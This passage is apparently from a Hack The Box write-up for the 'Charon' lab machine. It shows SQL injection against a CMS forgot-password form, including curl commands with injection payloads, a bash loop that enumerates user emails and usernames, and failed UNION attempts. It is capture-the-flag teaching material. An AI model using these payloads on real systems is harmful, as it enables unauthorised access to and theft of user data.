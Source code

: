 
## Exploit

### SQLI on forget.php

In login.php I try to login with different credentials and trying sql injections but the only thing that changes is the url parameter to err=1 "http://10.10.10.31/cmsdata/login.php?err=1"


![](/assets/img/htb/charon/login_php.png)


Proceed to click on forgot password, testing for a SQLI results in a message saying "Error In Database"


![](assets/img/htb/charon/error_in_database_1.png)


I will be sending the requests throught cURL so I grab the parameter names which are "email" and "submit"


![](assets/img/htb/charon/parameters_1.png)


#### retrieving valid emails

Testing for other sql injections I end up with the following that retrieves a valid email and limits the result to a specific index in this case test1, for limit 1,1 it will be test2@aa.com=>test2 and so on
```bash
$ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' or 1=1 limit 0,1-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}'
 Email sent to: test1@aa.com=>test1 
 ```
 
 with a for loop I can retrieve all the emails looking for the ones that are different from "test", I end up finding two valid emails 

```bash
$ for i in {0..999}; do (curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' or 1=1 limit $i,1-- -" -d "submit=submit" | grep "<h2>" | awk -F'<h2>' '{print $2}')& ; done | grep -vE "test|User not found with that email"
 Email sent to: adm@nowhere.com=>super_cms_adm    
 Email sent to: decoder@nowhere.com=>decoder   
 ```

#### union injection
 
 Trying with a "union" and "UNION" injection results in an error
 
 ```bash
 $ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' union select 1,2,3,4-- -" -d "submit=submit"
Error                                                                                                                                        $ curl -s -X POST http://10.10.10.31/cmsdata/forgot.php -d "email=admin@charon.htb' UNION select 1,2,3,4-- -" -d "submit=submit"
Error 
```
